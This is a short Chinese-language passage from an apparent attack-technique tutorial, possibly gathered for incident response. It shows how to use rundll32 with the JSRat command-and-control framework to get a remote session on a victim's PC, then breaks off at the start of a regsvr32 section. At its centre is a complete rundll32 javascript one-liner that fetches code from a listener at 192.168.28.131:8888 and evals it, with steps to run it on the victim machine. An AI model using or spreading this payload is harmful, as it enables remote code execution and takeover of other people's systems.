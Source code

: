 # 12、rundll32

其实还是依赖于WScript.shell这个组件，在这里我们使用JSRat来做演示，JSRat是一个命令和控制框架，仅为rundll32.exe和regsvr32.exe生成恶意程序。

项目地址：[https://github.com/Hood3dRob1n/JSRat-Py.git](https://github.com/Hood3dRob1n/JSRat-Py.git)

步骤一：开始运行JSRat，监听本地8888端口。<br />![20200413-12-1.png](../../_img\05-应急响应/1656916457916-c5ce1c37-ef2d-49b4-9aed-1c02b35c443e.png)

步骤二：通过url访问，可以查看恶意代码。

复制代码如下：
```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://192.168.28.131:8888/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}
```

步骤三：在受害者PC运行该代码，将成功返回一个会话，如下图所示：<br />![20200413-12-3.png](../../_img\05-应急响应/1656916510114-c1a695a9-042e-4608-ab5e-518000d4baa2.png)


# 13、regsvr32 
Regsvr32命令用于注册COM组件，是Windows系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行
